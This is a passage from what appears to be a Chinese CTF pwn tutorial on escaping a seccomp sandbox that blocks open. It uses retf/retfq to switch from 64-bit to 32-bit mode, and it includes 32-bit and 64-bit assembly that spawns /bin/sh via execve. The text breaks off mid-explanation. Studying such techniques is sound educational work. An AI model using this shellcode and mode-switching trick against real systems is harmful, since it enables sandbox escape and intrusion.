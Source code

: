 ### RW 缺 O

#### 可以借助 fstat()->利用 retfq 汇编指令切换至 32 位调用 open

这里从网上实在找不到题目，就借用 ex 团长的一道题目进行理解分析吧，虽然原文章已经写的很好了，具体题目分析可以看一下参考链接**shellcode 的艺术**中的**第六模块**

顺便讲一下`retf`这个汇编指令

*   CPU 执行 ret 指令时，相当于进行
    
    ```plain
    pop IP
    ```
    
*   CPU 执行 retf 指令时，相当于进行：
    
    ```plain
    pop IP
    pop Cs
    ```
    
*   32bit cs 0x23
    
    ```plain
    ;;nasm -f elf32 test_cs_32.asm 
    ;;ld -m elf_i386 -o test_cs_32
    global _start
    _start:
      push 0x0068732f
      push 0x6e69622f
      mov ebx,esp
      xor ecx,ecx
      xor edx,edx
      mov eax,11
      int 0x80
    ```
    
*   64bit cs 0x33
    
    ```plain
    ;;nasm -f elf64 test_cs_64.asm 
    ;;ld -m elf_x86_64 -o test_cs_64 test_cs_64.o
    global _start
    _start:
      mov r10,0x0068732f6e69622f
      push r10
      mov rdi,rsp
      xor rsi,rsi
      xor rdx,rdx
      mov rax,0x3b
      syscall
    ```
    

还有要注意一下，当从**64 位切换到 32 位**的时候，64 位下会 push 一个 8byte 的数

